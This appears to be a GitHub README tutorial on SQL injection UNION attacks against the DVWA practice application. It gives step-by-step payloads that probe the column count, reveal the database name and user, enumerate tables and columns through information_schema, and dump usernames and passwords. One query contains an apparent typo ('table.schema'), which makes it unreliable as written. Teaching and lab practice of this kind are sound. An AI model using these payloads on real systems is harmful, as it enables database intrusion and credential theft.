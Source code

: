 # SQL injection UNION attacks
 The UNION keyword lets you execute one or more additional SELECT queries and append the results to the original query. For example:
```sh
SELECT a, b FROM table1 UNION SELECT c, d FROM table2
```
## Steps for Number of columns required in an SQL injection UNION attack 
```sh
' ORDER BY 1#
' ORDER BY 2#
' ORDER BY 3#
```
if exceeds the database returns an error
```sh
Unknown column '3' in 'order clause'
```
After Knowing the Columns present in the data 
 * Next step to find the Database and the user present.
```sh
' UNION SELECT database(),user()#
```
You will get the screen below:
![final1](https://github.com/rahulrbk/Docs/blob/master/pic1.png)
After Knowing the database name and the user name we will find 'TABLE' inside the database.
with the following query:
```sh
' UNION SELECT table_name,table_name FROM information_schema.tables WHERE table.schema="dvwadb"#
``` 
![final2](https://github.com/rahulrbk/Docs/blob/master/pic2.png)
Now we have to find the information about Column data present in the table with the following query:
```sh
' UNION SELECT column_name,column_name FROM information_schema.columns WHERE table_schema="dvwadb"#
```
![final3](https://github.com/rahulrbk/Docs/blob/master/pic3.png)
At this point we can search for the critical information of the target by mentioning the following query:
```sh
'UNION SELECT user,password FROM users#
```
![final4](https://github.com/rahulrbk/Docs/blob/master/pic4.png)




